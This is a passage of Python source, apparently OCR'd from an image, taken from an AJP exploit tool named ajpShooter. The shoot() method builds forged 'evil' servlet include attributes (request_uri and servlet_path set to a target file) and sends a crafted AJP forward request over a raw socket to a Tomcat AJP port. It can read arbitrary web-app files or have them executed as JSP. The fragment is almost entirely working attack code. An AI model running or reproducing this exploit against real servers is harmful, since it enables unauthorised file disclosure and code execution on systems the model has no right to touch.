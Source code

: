 ```bash

    def read_string(self, int_len=2):
        data_len = self.read_int(int_len)
        data = self.recv(data_len)
        # consume the 0x00 terminator
        end = self.recv(1)
        log('debug', 'read_string read data_len:%d\ndata_len:%d\nend:%s' % (data_len, len(data), end))
        return data

    def recv(self, data_len):
        data = self.sock.recv(data_len)
        while len(data) < data_len:
            log('debug', 'recv not end,wait for %d bytes' % (data_len - len(data)))
            data += self.sock.recv(data_len - len(data))
        return data


class ajpShooter(object):
    def __init__(self, args):
        self.args = args
        self.headers = args.header
        self.ajp_port = args.ajp_port
        self.requesturl = args.url
        self.target_file = args.target_file
        self.shooter = args.shooter
        self.method = args.X
        self.out_file = args.out_file

    def shoot(self):
        headers = self.transform_headers()

        target_file = self.target_file.encode('utf8')

        attributes = []
        evil_req_attributes = [
            (b'javax.servlet.include.request_uri', b'index'),
            (b'javax.servlet.include.servlet_path', target_file)
        ]

        for req_attr in evil_req_attributes:
            attributes.append((b"req_attribute", req_attr))

        if self.shooter == 'read':
            self.requesturl += '/index.txt'
        else:
            self.requesturl += '/index.jsp'

        ajp_ip = urllib.parse.urlparse(self.requesturl).hostname

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ajp_ip, self.ajp_port))

        message = ajpRequest(self.requesturl, self.method, headers, attributes).make_forward_request_package()
        s.send(message)

        ajpResponse(s, self.out_file).parse_response()

    def transform_headers(self):
        self.headers = [] if not self.headers else self.headers
        newheaders = []
        for header in self.headers:
```